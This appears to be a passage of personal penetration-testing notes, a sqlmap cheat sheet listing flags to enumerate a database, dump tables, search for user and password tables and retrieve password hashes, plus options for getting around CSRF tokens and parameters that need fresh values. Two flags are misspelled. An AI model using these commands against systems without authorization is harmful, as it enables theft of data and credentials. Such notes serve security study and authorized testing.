 >[!code]- Database enumeration
>###### Basic information
>```powershell
>--banner       # database version banner
>--curent-user  # current user name
>--curent-db    # current database name
>--is-dba       # checking if the current user has administrator rights
>```
>
>###### Rows
>```powershell
>--tables  # list tables
>--columns  # list columns
>
>-D # specify database
>-T # specify table
>-C # specify column
>
>--dump # dump the specified columns
>--dump-all --exclude-sysdbs # dump all databases except any system databases
>
># Dump rows starting at the 2nd and ending at the 3rd
>--start=2
>--stop=3
>
># Dump rows based on a condition
>--where="name LIKE 'f%'"
>
># See how SQLMap options affect the SQL queries
>/usr/share/sqlmap/data/xml/queries.xml
>```
>###### Advanced enumeration
>```powershell
>--schema # see structure of all tables
>
>--search -T user # search tables called 'user' OR SIMILAR (eg username)
>--search -T pass # search tables called 'pass' OR SIMILAR (eg password)
>
>--passwords # auto-finds passwords
>
>--all --batch # enumerate everything possible from the DBMS - will require manually review in the output files
>```

>[!code]- Bypassing Web Application Protections
>###### Include CSRF tokens in requests
>>[!info]-
>>Specify which parameter supplies the CSRF token with `--csrf-token`. SQLMap automatically scans responses for when the token updates.
>```powershell
>sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
>```
>###### Parameters with required unique values
>>[!info]-
>>Web applications may require unique values to be provided inside particular parameters with each new request. The `--randomize=<parameter>` flag does this.
>```powershell
>sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp
>```
>###### Parameters with calculated values
>>[!info]-